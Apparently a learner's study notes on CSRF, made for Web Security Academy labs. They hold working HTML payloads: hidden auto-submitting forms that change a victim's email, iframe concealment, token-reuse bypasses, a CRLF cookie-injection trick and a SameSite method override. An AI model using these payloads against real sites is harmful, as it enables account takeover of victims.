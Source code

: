 # Enumeration
```python
- check for the rules of the web server - SOP, CORS, SameSite Cookie, Referer, Origin.
```


# Craft a malicious request
- when victim user load this html, it will automatically submit the forms that request a POST HTTP method to vulnerable to CSRF web server and they will redirect to that website. Use iframe if you do not want them to redirect.


```html
<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="POST" action="vulnerable@website.com">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```


# Using iframe to avoid redirect
- when a victim visits this website, it will request to the vulnerable website but it will load to the iframe which the display is set to none, they will only see the h1 tag.

```python
<html>
	<body>
		<h1>The website is under construction.</h1>
		<iframe style="display: none" name="csrf_iframe"></iframe>
		<form method="POST" action="https://vulnerable@website.com" target="csrf_iframe">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```



# Used other HTTP method
```python
>> check if other HTTP method such as GET request can bypass some CSRF defense
	- craft empty form's tag, but change the method to GET request and put all the data on input type hidden

<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="get" action="https://0a1f007804a09ca0840cc3c700e60044.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="anotheremail@gmail.com"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>

```

# CSRF token not validated
```python
- an application can be misconfigured like checking if it is only set else it would not reject the request rather accept it and bypass that CSRF token.
- craft a malicious request without the CSRF token in input tag
```

# CSRF token is not tied to user's session
```python
- other application find specific token to a pool of tokens which can be bypass by using their token as a valid CSRF token.
- the application always change the CSRF token, so logging in to the website and get your CSRF token which can be used to perform CSRF attack.


<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="post" action="https://0abb00d004c9494885862c8000b10080.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="attacker@email.net"/>
                        <input type="hidden" name="csrf" value="Aq425nuptr7QypXK1461FdaBOmk1LQNp"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```



# CSRF token is tied to non-session cookie 
```python
- CSRF token on a cookie but the application allows to inject or overwrite a cookie 
- the application also does not check if the CSRF token is for specific user.



<html>
	<body>
		<h1>The website is under construction.</h1>

		<form method="POST" action="https://0a8200340482837680bd1cd7006e0000.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="newattackermail@kjasdfhjk.com"/>
                        <input type="hidden" name="csrf" value="EvvoJyUA6a7O3V62IqNUgiJAV6QFWmOF"/>
		</form>

<img src="https://0a8200340482837680bd1cd7006e0000.web-security-academy.net/?search=searchValue%0D%0Aset-cookie%3acsrfKey%3dEx9sHOZvkuuuwP3vjOQOWRv79vWWs5e5%3bsamesite=none" onerror="document.forms[0].submit();"/>

		
	</body>
</html>
```


# CSRF duplicated on form and cookie
```python
- the application has a vulnerability where it did not validated if the CSRF token is from specific user
- it also has a vulnerability where an attacker can inject/overwrite/change their own CSRF token in the cookie.

- code example are the same as above but the CSRF token is the same from GET and POST requests.

```




# SameSite Lax bypass via method override
```python
- an application can override or set its own method via name "_method" in the form.


<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
	<input type="hidden" name="_method" value="GET">
	<input type="hidden" name="recipient" value="hacker">
	<input type="hidden" name="amount" value="1000000">
</form>

```




# Other
```python
- CSRF token can be leak via GET request that can save to server log, client browser history.
- 
```

# Question
```python
- why adding custom http header using javascript is more secure than putting the csrf token in hidden field form. - because it automaticaly subject to origin policy - why this.
- why changing the csrf token every valid request to the server can harm the user experience and not ideally to implement.
- 

```



















